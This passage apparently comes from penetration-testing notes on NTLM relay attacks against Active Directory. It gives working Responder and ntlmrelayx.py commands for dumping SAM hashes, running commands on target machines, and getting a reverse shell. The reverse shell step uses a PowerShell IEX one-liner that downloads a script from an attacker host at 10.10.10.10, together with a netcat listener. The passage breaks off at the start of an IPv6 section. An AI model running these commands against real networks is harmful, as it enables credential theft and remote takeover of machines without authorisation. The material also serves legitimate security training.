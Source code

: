Change the configuration of Responder in `/usr/share/responder/Responder.conf`. We have to  switch `Off` `SMB` and `HTTP`.

Create a file named `targets.txt`, include the IPs that we want to compromise.

Use the following commands with the `ntlmrelayx.py` y `responder.py` programs:

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

```bash
python3 Responder.py -I eth0 -rdw
```

In case that a user has `Administrator` privileges in a machine of the AD and accesses a shared resource that is not available, we can dump the `SAM` of that machine.

As it fails to validate the legitimacy of the origin, the `ntlmrelayx.py` program intercepts the connection that is looking for an invalid network resource. In case there is a user who is an `Administrator` of the `target` machine, `ntlmrelayx.py` will redirect the flow of that authentication to the victim machine, which will allow us to dump the `SAM` of the victim machine.

#### Command Execution

You can also execute commands in the target machine, using the same method but changing some arguments in `ntlmrelayx.py`. We will use the following command to perform the attack:

```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```

```bash
python3 Responder.py -I eth0 -rdw
```

#### Reverse Shell

In this case, if we want to access to the machine, we can send the reverse shell from `nishang/Shells/Invoke-PowershellTCP.ps1`. First, we have to modify the reverse shell adding the following line to the end of the file: `Invoke-PowershellTCP -Reverse -IPAddress 10.10.10.10 -Port 443`. This will allow us to load the module and run it at the same time. The, we will be listening for a connection with `nc -nlvp 443` and will share the file with `python3 -m http.server`. Last, we will execute the following commands:

```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10:8000/Invoke-PowershellTCP.ps1')'
```

```bash
python3 Responder.py -I eth0 -rdw
```

We will receive a connection from the reverse shell in the port that we are listening.

#### IPv6

The last attack can be dome in IPv6 as well but with other tools. First we will use the `mitm6` to poison the network traffic:
